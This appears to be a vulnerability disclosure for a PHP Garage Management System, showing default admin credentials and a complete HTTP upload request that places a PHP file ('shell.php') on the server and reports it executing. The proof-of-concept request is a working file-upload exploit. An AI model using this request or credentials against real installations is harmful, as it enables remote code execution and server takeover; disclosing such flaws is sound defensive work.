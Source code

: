 # Garage Management System v1.0 by mayuri_k has arbitrary code execution (RCE)

BUG_Author: yc liu

vendors: https://www.sourcecodester.com/php/15485/garage-management-system-using-phpmysql-source-code.html

The program is built using the xmapp-php8.1 version

Login account: mayuri.infospace@gmail.com/rootadmin (Super Admin account)

Vulnerability url: ip/garage/php_action/editProductImage.php?id=1

Loophole location: arbitrary file upload exists in Garage Management System's editProductImag.php file (RCE).

Request package for file upload：

```sql
POST /garage/php_action/editProductImage.php?id=1 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/garage/editproduct.php?id=1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=m6rramo7f8jalaggbvjh84b1mm
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------2213179266536
Content-Length: 432

-----------------------------2213179266536
Content-Disposition: form-data; name="old_image"

shell.php
-----------------------------2213179266536
Content-Disposition: form-data; name="productImage"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------2213179266536
Content-Disposition: form-data; name="btn"


-----------------------------2213179266536--
```

The files will be uploaded to this directory \garage\assets\myimages

![image](https://user-images.githubusercontent.com/54017627/180588440-1198f559-6960-4b97-98e2-58289bc4c432.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/180588468-7ad64ffb-abe4-4e01-9861-178e67579c62.png)
